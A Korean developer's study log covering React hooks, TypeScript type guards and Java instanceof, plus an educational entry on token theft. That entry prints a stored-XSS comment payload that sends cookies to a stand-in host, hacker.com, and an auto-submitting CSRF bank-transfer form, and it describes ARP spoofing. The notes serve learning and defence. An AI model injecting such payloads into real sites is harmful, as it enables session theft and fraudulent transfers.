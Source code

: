 # Today I Learned

## 목차

- [Week 1 (2025-03-03 ~ 2025-03-07)](#week-1-2025-03-03---2025-03-07)
- [Week 2 (2025-03-10 ~ 2025-03-14)](#week-2-2025-03-10---2025-03-14)

---

## Week 1 (2025-03-03 ~ 2025-03-07)

<details>
<summary>2025-03-04 TUE</summary>

### useState

props를 부모에게 받았을 경우 자식 컴포넌트는 무조건 리렌더링됨. (state가 변경되지 않아도 리렌더링이 될수도 있음)

**리액트 리렌더링 조건**
>1. state 변경 시 리렌더링
>2. props 변경 시 리렌더링
>3. 부모 컴포넌트 리렌더링 발생 시 자식 컴포넌트 리렌더링

부모 컴포넌트 리렌더링 발생 시 모든 자식 컴포넌트도 리렌더링되는 것은 부하가 될 수 있다.

~~그러므로 props로 연결된 부분을 없애고 하위 컴포넌트에서 정의를 하는게 나을 수 있다.~~

⇒ 이런 경우 useMemo훅, useCallback, React.memo을 사용해 캐싱할 수 있다.

**setState의 활용**

state의 set 상태변화함수는 상태를 함수를 활용해 변경하는 역할을 한다. onChange나 onClick같은 이벤트리스너와 조합하면 사용자 입력에 따라 상태를 변경하는 기능을 만들 수 있다.

++ state 변수에는 객체도 등록이 가능함. 이를 통해 여러개의 state 변수를 관리하는 것보다 안전하게 관리가 가능함.

상태 변경 시에 다른 부분은 그대로 유지하고 한 부분만 변경하도록하여 적용한다.

- 스프레드 연산자 : …객체명을 통해 객체의 요소들을 한번에 표현할 수 있다.
- 자바스크립트의 문법으로 객체 속성에 동적으로 접근할 때 [벼]

### useMemo

useMemo 훅은 정의한 함수의 의존성 배열 값이 변경되지 않는 경우 이전 실행 결과를 재사용한다. 그래서 특정 컴포넌트의 리렌더링을 막을 수 있다. 

**단, useMemo는 메모리 사용량 증가로 이어지며 성능이 떨어질수도 있다.** 

**또한 메모이제이션 값이 너무 많아지면 관리가 어렵다.** 

### useCallback

useCallback 훅은 함수를 메모이제이션한다. 특정 함수의 실행 결과를 재사용한다.

### 의존성 배열

- 불필요한 재실행을 막고 싶다면 꼭 필요한 값만 의존성 배열에 넣어야 한다.
- 빈 배열을 넣으면 최초 1회만 실행됨. 그 이후로는 변경되는 값이 없기 때문에 다시 실행되지 않음.
- 의존성 배열을 생략하면 useMemo, useEffect 등의 훅이 매번 실행됨 → 최적화 효과가 없음

### useEffect와 useMemo

| Hook | 사용 목적 | 실행 시점 | 반환 값 | 주의할 점 |
| --- | --- | --- | --- | --- |
| `useEffect` | 부수 효과 (Side Effects) 처리 | 렌더링 후 (After Render) 실행 | `undefined` (리턴값 없음) | 비동기 작업, DOM 조작 등에 사용 |
| `useMemo` | 값(Value) 메모이제이션 | 렌더링 중 (During Render) 실행 | 캐싱된 값(Value) | 연산이 무거운 경우에만 사용해야 성능 최적화됨 |

useMemo는 렌더링 도중 실행되며 비동기 작업 불가능

```
💡 useMemo 프로세스

의존성 배열에 있는 값이 변경 → 컴포넌트가 다시 렌더링 → 그 렌더링 과정 중에 useMemo가 실행
```

### useRef

이전 값과 새로운 값을 연결하고, 렌더링과는 무관하게 값이 유지되어야 할 때 사용됨.

```tsx
const a = useRef(초기값); // ref 객체 선언
a.current // ref 객체의 상태 조회
```

리렌더링을 해도 ref객체의 상태는 유지되고 ref객체의 상태가 변해도 렌더링이 발생하지 않는다는 특징을 갖고 있다.

## 번외

### 타입스크립트의 type guard

이전까지 타입스크립트를 사용하면서 `any` 만 안쓰면 되겠지 하며 assertion type 일명 `as` 키워드를 자주 사용해왔다. 그 이유는 null이 올 수 있더라도 변수의 타입이 string 타입이라는 개인적인? 확신이 있었기 때문이다. 

JS에서는 타입 좁히기(type narrowing)가 타입을 더 쉽게 예측할 수 있는 작업이었고, `as` 키워드 또한 type narrowing 중 하나의 수단이라고 생각했다. 

그런데 공부하다보니 이 `as` 의 타입 확정은 오히려 타입스크립트의 타입 검사 기능을 포기하겠다는 것이나 다름없다고 한다. 그 이유는 개발자가 변수에 어떤 타입이 올지 확실히 인지했다 하여도 `as` 선언에서 실수를 한다면 런타임에러가 터지기 전까지 인지할 수 없기 때문이다.

그 이유는 다음과 같다.

1. 자신은 반드시 string 타입이 올 것이라 생각해 as string을 작성함.
2. 하지만 그것은 개발자의 착각일 가능성이 있거나 요구사항 변경에 따라 변하게 될 가능성이 있음
3. 그렇게 컴파일 시점을 자연스럽게 통과하더라도 런타임에서 오류가 터질 수 있음

비유하자면 이러한 방식은 컴파일러에게 “내가 이 타입을 너보다 더 잘알고있음. 믿어주셈 ㅇㅇ” 라고 말하는 것과 같다. 어림도 없다.

### **결론**

as보다 type narrowing의 올바른 기법은 null 체크 혹은 typeof나 instanceof를 사용한 type guard 기법이다. 이러한 type guard 기법은 무조건 타입을 확정짓는 as와 달리 `타입 검사를 통과하면 타입이 확정` 되기 때문에 옳은 방식이다.

### 자바의 instanceof

> </br>  
> typeof나 instanceof를 사용한 type narrowing은 자바에서는 지양해야 한다. 왜냐하면 instanceof 체크가 필요한 부분이 있다면 그 부분은 객체지향적으로 분리가 필요한 부분일 가능성이 높기 때문이다.
> 
> 1. OCP 위반 : 새로운 타입이 추가될 때마다 instanceof 체크를 변경해야 함.
> 2. TDA(tell don’t ask) 위반: 데이터를 요구하지 않고 객체가 자연스럽게 상호작용하도록해야함. 데이터를 요구하는 행위는 두 함수의 데이터 결합이 이뤄졌다는 뜻임
> 3. 다형성 위반 : instanceof 체크는 강제로 그 타입인 상태일 때의 행동을 규정하므로 미리 설정해둔 동작을 벗어난 동작을 함.
> </br>
</details>

<details>
<summary>2025-03-05 WED</summary>

# 토큰 탈취가 일어나는 과정과 대응방안을 설명해주세요
토큰 탈취가 일어나는 과정, 즉 공격자가 토큰을 탈취하는 방법에는 여러가지가 있습니다. 

## XSS(Cross Site Scripting) 공격

XSS는 보안이 취약한 웹사이트에 악의적인 스크립트를 삽입하여 사용자 브라우저에서 실행되도록 하는 공격입니다.

1. 취약점이 있는 웹사이트의 특징?
    
    다음과 같은 웹사이트는 취약점이 있을 수 있습니다.
    
    - 입력값 검증 X : 서버에서 위험한 입력을 검증한다면 사전 방지할 수 있음
    - innerHTML을 사용해 DOM을 직접 조작하는 웹사이트 : innerHTML은 문자열을 HTML로 바꾸기 때문에 이러한 스크립트에 더욱 취약함
    - eval 함수를 사용하는 웹사이트(eval은 입력을 코드로 실행할 수 있는 JS 함수임)
    - HttpOnly 쿠키 미사용 : HttpOnly가 적용된 쿠키는 접근 불가능하므로 보호될 수 있음
    
    해커는 이러한 취약점이 있는 웹사이트에 스크립트를 삽입합니다. 해커와 유저는 서로 다른 클라이언트이기 때문에 서로에게 영향을 주지는 않지만 **해커가 조작한 데이터가 DB에 삽입되는 경우**는 다릅니다.
    

1. 공격자 스크립트의 동작 과정
    
    EX) 해커가 댓글을 작성한 후 그 스크립트가 유저의 PC에서 동작하는 과정
    
    1. 댓글 스크립트
    
    ```tsx
    좋은 글이네요! <script>var img = new Image(); img.src = "https://hacker.com/steal?cookie=" + document.cookie;</script>
    ```
    
    1. 유저 측에서 확인되는 스크립트
    
    ```tsx
    <div class="comment">
      좋은 글이네요! <script>var img = new Image(); img.src = "https://hacker.com/steal?cookie=" + document.cookie;</script>
    </div>
    ```
    
    이런 식으로 서버를 경유해서 스크립트가 저장됩니다.
    
    클라이언트가 이 사이트에 접근했을 때 해커의 사이트로 쿠키와 함께 이미지 요청을 발송하게 됩니다.
    

 

## CSRF 공격

1. **사용자 인증**
    
    사용자가 웹사이트에 로그인하여 인증 쿠키를 받습니다.
    
2. **인증 상태 유지**
    
    브라우저는 해당 웹사이트에 대한 쿠키를 저장하고 유지합니다.
    
3. **악성 사이트 방문**
    
    사용자가 로그인 상태를 유지한 채로 공격자의 웹사이트나 악성 이메일 링크를 클릭합니다.
    
4. **위조된 요청 실행**
    
    공격자의 사이트는 자동으로 대상 웹사이트에 요청을 보내는 코드를 실행합니다. 예를 들면:
    
    - 자동 제출되는 폼
    - 이미지 태그를 이용한 GET 요청
    - JavaScript를 이용한 요청
5. **브라우저의 쿠키 전송**
    
    브라우저는 요청과 함께 대상 웹사이트에 대한 인증 쿠키를 자동으로 전송합니다.
    
6. **서버의 요청 처리**
    
    대상 웹사이트 서버는 유효한 인증 쿠키를 받았으므로 요청이 합법적인 사용자로부터 온 것으로 간주하고 처리합니다.
    

EX) 악성 웹사이트의 HTML에서 사용자의 쿠키를 활용해 요청을 보내는 경우

```tsx
<!-- 악성 웹사이트의 HTML -->
<body onload="document.getElementById('transfer-form').submit()">
  <form id="transfer-form" action="https://bank.example.com/api/transfer" method="POST">
    <input type="hidden" name="recipient" value="attacker">
    <input type="hidden" name="amount" value="10000">
  </form>
</body>
```

위와 같은 경우 해커가 미리 지정한 value 값으로 계좌이체를 진행하게 됩니다.

### CSRF 방어 방법

1. csrf 토큰을 사용 : 서버에서 생성한 랜덤 토큰을 요청마다 포함시켜 same-site임을 검증
2. same-site 쿠키 속성 : 같은 same site 요청인 경우에만 쿠키 전송
3. Origin 헤더 검증 : CORS를 통해 허용된 Origin 헤더인 경우에 요청을 허용.

## MITM(Man-in-the-Middle) 공격

흔히 말하는 중간에서 공격자가 데이터 전송을 가로채는 기법입니다.

HTTPS로 암호화된 데이터 전송이 아닌 경우 중간에 헤더에 담긴 토큰을 탈취한 후 해석하는 것이 가능합니다.

1. 공격자는 통신 경로(네트워크)에 침입합니다.
    - ARP 스푸핑: 로컬 네트워크의 캐시를 조작해 피해자의 트래픽을 자신에게 리디렉션 하도록 설정함(MAC주소와 IP주소간의 매핑을 조작)
    - DNS 스푸핑: DNS 서버를 조작해 해커의 IP로 요청을 보내도록함
2. 트래픽 가로채기
    
    **ARP 스푸핑**
    
    - 공격자는 로컬 네트워크에서 지속적으로 위조된 ARP 메시지를 브로드캐스트합니다.
    - 이 메시지는 "라우터의 IP 주소는 공격자의 MAC 주소와 연결되어 있다"고 알립니다.
    - 또한 "대상 컴퓨터의 IP 주소는 공격자의 MAC 주소와 연결되어 있다"고 라우터에 알립니다.
    - 피해자의 컴퓨터와 라우터는 ARP 캐시를 업데이트합니다.
    - 결과적으로 피해자와 라우터 사이의 모든 트래픽이 공격자의 컴퓨터를 통과하게 됩니다
</details>
---

## Week 2 (2025-03-10 ~ 2025-03-14)
